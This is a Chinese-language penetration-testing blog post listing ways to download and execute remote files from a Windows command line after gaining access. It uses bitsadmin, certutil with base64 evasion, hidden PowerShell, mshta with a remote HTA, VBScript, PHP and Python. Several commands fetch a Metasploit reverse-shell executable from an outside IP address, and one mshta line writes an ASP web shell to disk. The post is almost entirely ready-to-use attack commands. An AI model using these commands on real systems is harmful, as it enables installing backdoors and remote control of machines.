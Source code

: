 +++
date = "2018-02-06T15:12:32+08:00"
description = "在windows的终端下下载文件，在windows的终端下执行远程文件"
draft = false
tags = ["intranet"]
title = "Windows终端下载文件和执行远程文件"
topics = ["Pentest"]

+++

环境：Windows Server 2008 R2 Enterprise

### 0x00 bitsadmin下载文件
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload http://114.115.123.123/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
```

### 0x01 certutil下载文件
保存在当前目录
```bash
certutil -urlcache -split -f http://114.115.123.123/a.exe a.exe
```

有时会下载二进制文件的base64编码后的字符串，然后再解码
```
本地：certutil -encode cc.exe base64.txt
目标：certutil -urlcache -split -f http://114.115.123.123/base64.txt
目标：certutil -decode base64.txt cc.exe
```

文件会以二进制形式缓存到目录：C:\Users\Administrator\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
```bash
certutil -urlcache -f http://114.115.123.123/a.exe
```

### 0x02 powershell下载文件
有的时候PowerShell的执行权限会被关闭，需要使用如下的语句打开。

C:\>powershell set-executionpolicy unrestricted

```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")
```

### 0x03 mshta下载文件与执行远程文件
使用mshta命令的文件都会被缓存到：C:\Users\Administrator\AppData\Local\Microsoft\Windows\Temporary Internet Files

* 执行远程hta文件

```bash
mshta http://114.115.123.123/payload.hta
mshta http://114.115.123.123/a.exe
#payload.hta和a.exe都会被缓存在IE的缓存目录
```
payload.hta
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

* 写文件的方法

```
mshta vbscript:createobject("scripting.filesystemobject").createtextfile("a.asp",2,ture).writeline("<%execute(request('l'))%>")(window.close)
```

### 0x04 Visual Basic
```
Set args = Wscript.Arguments
Url = "http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe"
dim xHttp: Set xHttp = createobject("Msxml2.ServerXMLHTTP.3.0")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Windows\Temp\aa.exe", 2 '
end with
```
C:\Users\Administrator\Desktop> cscript test.vbs

### 0x05 利用脚本语言
* PHP

```
#!/usr/bin/php
<?php
    $data = file_get_contents("http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe");
    file_put_contents('C:\\Windows\\Temp\\aa.exe',$data);
?>
```
C:\Users\Administrator\Desktop> php aa.php

* Python

```
import urllib2;u = urllib2.urlopen('http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe');f = open('C:\\Windows\\Temp\\aa.exe', 'w');f.write(u.read());f.close();
```
C:\Users\Administrator\Desktop> python aa.py

### 0x06 FTP
远程连接自己的ftp服务器，然后下载文件

<br />
#### Reference(侵删)：
* [https://xianzhi.aliyun.com/forum/topic/1654](https://xianzhi.aliyun.com/forum/topic/1654?_blank)
* [https://evi1cg.me/archives/Tricks.html](https://evi1cg.me/archives/Tricks.html?_blank)
* [https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/](https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/?_blank)
* [http://www.secange.com/2017/08/收集整理的16种文件下载的方式/](http://www.secange.com/2017/08/收集整理的16种文件下载的方式/?_blank)
